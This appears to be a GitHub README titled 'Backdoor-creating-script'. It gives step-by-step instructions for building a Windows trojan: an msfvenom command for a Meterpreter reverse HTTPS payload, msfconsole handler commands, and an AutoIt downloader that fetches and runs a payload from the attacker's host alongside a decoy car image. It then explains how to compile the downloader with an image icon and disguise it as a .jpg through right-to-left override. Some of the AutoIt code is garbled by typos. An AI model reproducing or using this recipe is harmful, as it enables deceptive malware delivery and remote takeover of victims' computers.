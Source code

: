 # Backdoor-creating-script


# Create a payload using this command 
msfvenom --payload windows/meterpreter/reverse_https LHOST=192.168.1.16 LPORT=8080 --format exe --out rev_https_8080.exe 

# Now Listening the Backdoor Connections
1. msfconsole
2. use exploit/multi/handler
3. set payload multi/meterpreter/reverse_https
4. set lport 8080
5. set lhost $ip$
6. python3 -m http.server 8000
7. exploit

# Backdoor any file type like pdf,jpg,etc

#include <StaticConstants.au3>

#include <WindowsConstants.au3>

Local $urls = "http://www.guide-autosport.com/wp-content/uploads/photo-gallery/Nissan%20GT-R%203.8%20530%20ch%202011/nissan-gtr-2011-1.jpg,http://192.168.1.16:8000"

Local $urlsArray = StringSplit($urls, ",", 2)

For $url In $urlsArray
        $sFile DownloadFile(Surl)
        shellExecute($sFile)

Next

Func _DownloadFile($sURL)
        Local $hDownload, $sFile
        $sFile = StringRegExpReplace($sURL, "^.*/", "")
        $sDirectory = @TempDir & $sFile 
        $hDownload = InetGet ($sURL, $sDirectory, 17, 1)
        InetClose($hDownload)
        Return $sDirectory
End Func   ;==>_ GetURLImage


## (in this script we will past the url of the image and the second is our payload url) and save this file name as {autoit-download-and-execute.txt}
# now we compile the script we use tool name   Aut2Exe v3- Aultoit Script to exe converter  windows tool 
1. first we change the name autoit-download-and-execute.txt  to    autoit-download-and-execute.au3    {we change the extention now we use the compiler tool}
2. in this we give the file autoit-download-and-execute.au3
3. it will auto give .exe autoit-download-and-execute.exe
4. also add a custom icon that we download the image from our first link but that was an image we will convert it to icon
5. give that icon now convert
6. we got autoit-download-and-execute.exe file now rename it as "gta.exe" or .jpg "gtagpj.exe"   we use righ to left  override website
7. 
8. 


